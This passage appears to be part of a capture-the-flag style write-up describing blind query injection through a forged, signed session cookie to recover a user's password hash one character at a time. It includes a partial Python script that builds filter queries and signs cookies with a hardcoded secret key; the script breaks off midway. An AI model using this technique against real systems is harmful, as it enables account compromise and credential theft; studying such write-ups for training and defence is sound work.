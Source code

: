 I tried each character until I reached `f`, and it returned something different:

<figure><img src="../../.gitbook/assets/image (806).png" alt=""><figcaption></figcaption></figure>

The length of the first response was `2174`, while the second was different. Based on this, we should have exploited blind injection successfully and automation is possible. Further testing with 2 characters works as well.

Here's my script:

```python
import string
import requests
import json
import requests
import subprocess

password = ''
chars = "abcdef0123456789" # Hashes only have these characters
test = '' 

def generate(c):
	query = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":c}}}
	with open("cookie.json","w") as f:
		f.write(json.dumps(query))
	output = subprocess.check_output(["./cookie-monster.js", "-e", "-f", "cookie.json", "-k", "8929874489719802418902487651347865819634518936754", "-n", "download_session"]).decode().replace("\n"," ")

	jwt = output.split("download_session=")[1]
	jwt = jwt.split(" ")[0]
	jwt = jwt.split("\x1b")[0]
```